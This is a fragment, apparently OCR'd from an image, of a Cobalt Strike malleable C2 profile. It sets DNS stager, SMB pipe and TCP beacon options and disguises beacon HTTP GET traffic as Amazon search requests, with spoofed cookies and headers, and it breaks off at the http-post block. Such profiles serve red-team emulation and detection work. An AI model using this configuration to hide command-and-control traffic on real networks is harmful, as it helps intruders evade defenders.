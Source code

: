 ```
  
set dns_stager_subhost ".stage.8546."; # Subdomain used by DNS TXT record stager
  
set dns_max_txt "[0-255]"; # Maximum length of DNS TXT responses for tasks
  
set dns_ttl "1"; # TTL for DNS replies

set pipename "win_svc+8546"; # Name of pipe to use for SMB beacon's peer-to-peer communication
  
set pipename_stager "win_svc+8546"; # Name of pipe to use for SMB beacon's named pipe stager

set tcp_port "1337"; # TCP beacon listen port


http-get {

set uri "/d/ref=nb_sb_noss_2/167-3294888-0262948/field-keywords=pens";

client {

header "Accept" "*/*";

header "Host" "www.amazon.com";

metadata {

base64;

prepend "session-token=";

prepend "skin=noskin;";

append "csm-hit=s-24KU11BB82RZSYGJ3BDK|1419899012996";

header "Cookie";

}

}

server {

header "Server" "Server";

header "x-amz-id-1" "THKUYEZKCKPGY5T42PZT";

header "x-amz-id-2" "a21yZ2xrNDNtdGRsa212bGV3YW85amZuZW9ydG5rZmRuZ2tmZGl4aHRvNDVpbgo=";

header "X-Frame-Options" "SAMEORIGIN";

header "Content-Encoding" "gzip";

output {

print;

}

}

}

http-post {
```